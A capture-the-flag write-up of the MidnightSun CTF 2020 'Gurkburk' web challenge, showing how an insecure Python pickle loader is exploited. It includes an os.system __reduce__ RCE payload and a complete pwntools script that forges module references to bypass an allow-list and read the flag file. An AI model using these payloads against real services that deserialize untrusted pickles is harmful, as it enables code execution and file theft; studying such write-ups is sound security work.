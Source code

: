Gurkburk: Web - MidnightSun CTF 2020
===
Played with [npi](https://twitter.com/n0pwnintended)!!

## The challenge
The challenge is a simply note-taking service, written in python( as challenge descriptions says ), with an intresting feature: Load/Save notes:

![TheChallenge](images/challenge.png)

## Exploit

After random attemps (create note, erase ecc) and after 'Save notes', the service tells me this:

```
Here is your loading code: Y2NvcHlfcmVnCl9yZWNvbnN0cnVjdG9yCnAwCihjX19tYWluX18KTm90ZXMKcDEKY19fYnVpbHRpbl9fCm9iamVjdApwMgpOdHAzClJwNAooZHA1ClZuYW1lCnA2ClZNeSBub3RlcwpwNwpzVm5vdGVzCnA4CihscDkKVkNpYW8KcDEwCmFzYi4=
```
Uhmm! Base64, Okay, let's try to decode it:
```
ccopy_reg
_reconstructor
p0
(c__main__
Notes
p1
c__builtin__
object
p2
Ntp3
Rp4
(dp5
Vname
p6
VMy notes
p7
sVnotes
p8
(lp9
VCiao
p10
asb.
```
Well, this is a [pickle](https://docs.python.org/3/library/pickle.html) dumps. 

### First Attemps: RCE
With reduce and os.system let's try to make an rce payload:
```python
import os
class X:
    def __reduce__(self):
        return os.system, ("echo 'pwned'",)
```
...send to service:
```
_pickle.UnpicklingError: Your pickle is trying to load something sneaky. Only the modules __main__, __builtin__ and copyreg are allowed. eval and exec are not allowed.
```
Very sad, but it tells us something useful( sad but useful): only \_\_main\_\_ (sure, class Notes is in main module) and \_\_builtin\_\_ are allowed. 
The description says: ```The flag is in ./flag.txt```.

Good: open function is in builtin methods.

### Second Attemps: Craft a Notes instance with fd as note

We do not have source code (the files in ctf-files was leaked by exploit), but now, we know some things:

* From pickle dump: Notes.notes is an array
* By simply guessing: Listing feature uses a iterator-based (```for```) cycle:

Good news: open function returns an iterator over lines, too.

Let's make a more complex payload (with some OSINT obv):
```python
import pickle, sys, re, base64
from pwn import remote


class FakeModules(type(sys)):
    modules = {}

    def __init__(self, name):
        self.d = {}
        super().__init__(name)

    def __getattribute__(self, name):
        d = self()
        return d[name]

    def __call__(self):
        return object.__getattribute__(self, "d")

def add_module(s):
    # ADD MODULE
    mod, name = s.split(".")
    if mod not in FakeModules.modules:
        FakeModules.modules[mod] = FakeModules(mod)
    d = FakeModules.modules[mod]()
    if name not in d:
        def f(): pass
        f.__module__ = mod
        f.__qualname__ = name
        f.__name__ = name
        d[name] = f
    return d[name]

def dumps(obj):
    pickle.dumps = pickle._dumps
    orig = sys.modules

    # INJECT FAKE MODULES
    sys.modules = FakeModules.modules
    s = pickle.dumps(obj)
    sys.modules = orig
    return s

def craft(func, *args, dict=None, list=None, items=None):
    # UTILS FOR __REDUCE__
    class X:
        def __reduce__(self):
            tup = func, tuple(args)
            if dict or list or items:
                tup += dict, list, items
            return tup
    return X()


class Exploit:


    def __init__(self, host, port) -> None:
        self.p = remote(host, port)

    def load(self):
        cal = craft(add_module("__main__.Notes"), dict={
            "notes" :craft(add_module("__builtin__.open"), "/flag.txt")
            }
        )
        payload = base64.b64encode(dumps(cal))
        self.send_command("l", payload)

    
    def list_notes(self):
        return self.send_command("d")
    
    def get_flag(self):
        self.load()
        text = self.list_notes()

        pattern = r'(midnight{.*})'
        flags = re.findall(pattern, text.decode())

        if len(flags)>0:
            return flags[0]

    def send_command(self, command, arg=None):
        self.p.recvuntil("==>")
        self.p.sendline(command)
        
        if arg:
            self.p.recvuntil(":")
            self.p.sendline(arg)
            
        results = self.p.recvuntil("*")
        return results




e = Exploit("gurkburk-01.play.midnightsunctf.se", 37541)
print("FLAG =>" , e.get_flag())

```

It works: ```midnight{d311c10u5_p1ck135_f0r_3v3ry0n3}```
